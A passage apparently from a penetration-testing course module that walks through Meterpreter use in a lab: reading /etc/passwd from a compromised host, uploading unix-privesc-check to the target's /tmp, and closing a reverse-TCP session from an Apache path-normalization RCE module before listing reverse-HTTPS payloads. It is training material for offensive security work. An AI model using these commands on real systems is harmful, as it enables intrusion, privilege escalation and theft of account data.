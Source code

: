 ```
meterpreter > lcat /home/kali/Downloads/passwd
root:x:0:0:root:/root:/bin/bash
...
```

> Listing 41 - Change local directory and download **/etc/passwd** from the target machine

Listing 41 shows that we could successfully download **/etc/passwd** to our local machine.

Next, let's assume we want to run [*unix-privesc-check*](https://github.com/pentestmonkey/unix-privesc-check) like in a previous Module to find potential privilege escalation vectors. Let's upload the file to **/tmp** on the target system.

```
meterpreter > upload /usr/bin/unix-privesc-check /tmp/
[*] uploading  : /usr/bin/unix-privesc-check -> /tmp/
[*] uploaded   : /usr/bin/unix-privesc-check -> /tmp//unix-privesc-check

meterpreter > ls /tmp
Listing: /tmp
=============

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
...
100644/rw-r--r--  36801    fil   2022-08-08 05:26:15 -0400  unix-privesc-check
```

> Listing 42 - Uploading unix-privesc-check to the target machine

Listing 42 shows that we successfully uploaded *unix-privesc-check* to the target machine. If our target runs the Windows operating system, we need to escape the backslashes in the destination path with backslashes like "\\\\".

So far, we've used the *linux/x64/meterpreter\_reverse\_tcp* payload in this section to explore various features of Meterpreter. Before we head into the next section, let's use another 64-bit Linux Meterpreter payload. Therefore, we exit the current session and use **show payloads** in the context of the exploit module again.

```
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.50.16 - Meterpreter session 4 closed.  Reason: User exit

msf6 exploit(multi/http/apache_normalize_path_rce) > show payloads

Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   ...
   10  payload/linux/x64/meterpreter_reverse_https                        normal  No     Linux Meterpreter, Reverse HTTPS Inline
   ...
```

